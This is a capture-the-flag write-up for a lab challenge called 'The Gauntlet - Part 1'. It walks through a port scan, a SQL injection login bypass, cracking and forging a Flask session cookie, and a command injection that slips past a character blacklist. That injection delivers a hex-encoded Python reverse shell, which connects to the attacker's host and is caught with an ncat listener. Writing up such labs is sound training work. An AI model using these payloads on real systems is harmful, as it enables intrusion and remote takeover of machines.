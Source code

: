 ## Original Writeup From lillieCan Taken From:

<code>[**https://ctf.lillie.sh/blog/misc/the-gauntlet-p1/**](https://ctf.lillie.sh/blog/misc/the-gauntlet-p1/)</code> 

<br>


# The Gauntlet - Part 1

**Challenge Prompt:**

> So, you think you're a l33t h4xx0r? Alright, here's my little gauntlet to you then:  
> Break in through the website and get a shell one way or another. Once that's done, escalate your privileges and own the box.  
>
> You won't be needing any fancy kernel exploits or such, this one's all about bad practices and misconfigurations. Doesn't sound too hard, now does it? Good luck!

Flag binaries are located at /home/*****/user.flag and /root/root.flag  
the-gauntlet.hkn

## Prerequisites

This writeup will be missing the rabbit holes, and other wrong paths I took. I decided to do this to save time so I can write more writeups. I might decide to write a more complete one later, so this will be a writeup in the mind of someone not doing any mistakes. But I’m happy to talk on the discord to discuss the challenge.

## Finding ports

There is no website available at the ip we get from the Campfire. So next step is to port scan to figure where to start.

```bash
nmap -sV -v the-gauntlet.hkn
```

The result is back

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.12.3)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

So we have ssh port open at 22 and tcp port at 5000.

## Website

When going to the-gauntlet.hkn:5000 we get to a website with following html

```html
...
<body>
    <div class="container">
        <h1>Welcome.</h1>
        <p>This is my small gauntlet to you.</p>
        <p>It's simple: find a way in, get a shell
        <!-- (no flag before that!) -->, escalate your privileges
        <!-- .. a few times .. -->.</p>
        <p>There will be no need for web enumeration
        <!-- (scanning for files/directories, etc.) -->. 
        The steps ahead should be clear to you.</p>
        <p>Once you have a shell on the box, 
        deep enumeration shouldn't be necessary.</p>
        <p>Enjoy.</p>
        <a href="/login">Login</a> |
        <a href="/admin">Admin</a> 
    </div>
</body>
</html>
```

## Login page

We see there are links to a login and admin page. Admin page responds with

```
Access denied. Admins only.
```

Login page allows us to input username and password.

We don’t know any accounts, so usually when there is no source code it can be a sign of sql injection.

After looking at sql injection cheatsheets, this worked to login.

```
' OR 1==1; --
```

We get following html after logging in

```html
...
<body>
    <div class="container">
        <h1>Welcome Bob!</h1>
        <p>You are a regular user.</p>
        <a href="/logout">Logout</a> |
        <a href="/admin">Admin</a>
    </div>
</body>
</html>
```

So we are not admin yet.

## Flask Session

When looking at requests while logging in, we get a flask session cookie

```
eyJ1c2VyIjp7ImlzX2FkbWluIjpmYWxzZSwidXNlcm5hbWUiOiJCb2IifX0.Z9VHJQ.-m3orXMcfEzMkMWdElSF0LcclfY
```

Putting the token into jwt.io we get the following decoded header

```json
{
  "user": {
    "is_admin": false,
    "username": "Bob"
  }
}
```

So knowing the code had a sql injection, it could be possible for the secret being weak.

`flask-unsign` is a known tool that makes cracking this easier.

I download rockyou.txt as it’s a low hanging fruit password list and try it out with the unsign option.

```bash
flask-unsign --unsign --cookie "eyJ1c2VyIjp7ImlzX2FkbWluIjpmYWxzZSwidXNlcm5hbWUiOiJCb2IifX0.Z9VHJQ.-m3orXMcfEzMkMWdElSF0LcclfY" --no-literal-eval --wordlist rockyou.txt 
```

We then get back

```
[*] Session decodes to: {'user': {'is_admin': False, 'username': 'Bob'}}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 11264 attempts
b'itsasecret'
```

We can use the secret to create our own token that works with the website.

```bash
flask-unsign --sign --cookie "{'user': {'is_admin': True, 'username': 'Bob'}}" --secret 'itsasecret'
```

this generated the token

```
eyJ1c2VyIjp7ImlzX2FkbWluIjp0cnVlLCJ1c2VybmFtZSI6IkJvYiJ9fQ.Z9VLGA.Y36X4rBlVwVDoXUAMsUjGnkI-GM
```

## Remote Code Execution

and we can then login as the admin by replacing our session token with the token we in previous section

```html
...
<body>
    <div class="container">
        <h2>Admin Page</h2>
        <pre></pre>
        <form method="post">
            Host check: <input type="text" name="command" value="127.0.0.1"><br>
            <input type="submit" value="Submit">
        </form>
    </div>
</body>
</html>
```

When we try to submit we get the following output back in the html

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.032 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.032/0.032/0.032/0.000 ms
```

This looks like a result of a ping command, so next step seems to do a command injection to get access to the box.

Trying out different escape sequences reveals there is a blacklist of characters. Quick example is submitting a ; results in following message

```
Illegal characters detected!
```

I found that `$(whoami)` works and gives us the error

```
ping: user1: Name or service not known
```

Space is also banned, but `${IFS}` works as an alternative to space.

I decided to use python3 and decoding hex to get a reverse shell

```bash
$(python3${IFS}-c${IFS}'exec(bytes.fromhex("696d706f7274206f732c7074792c736f636b65743b733d736f636b65742e736f636b657428293b732e636f6e6e656374282822782e782e782e78222c313530343329293b5b6f732e6475703228732e66696c656e6f28292c6629666f72206620696e28302c312c32295d3b7074792e737061776e2822626173682229").decode())')
```

The bytes from hex is following code

```python
import os,pty,socket;s=socket.socket();s.connect(("x.x.x.x",15043));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")
```

Where `x.x.x.x` needs to be your ip either found in the browser lab, or vpn settings.

I open up a reverse proxy listener with following command

```bash
ncat -lvnp 15043
```

After sending the command I get access to the shell.

## Flag

We run the command `./user.flag` and get the flag for part 1

```
DDC{n0th1ng_l1k3_4_b1t_0f_RCE}
```

The challenge continues with part 2.
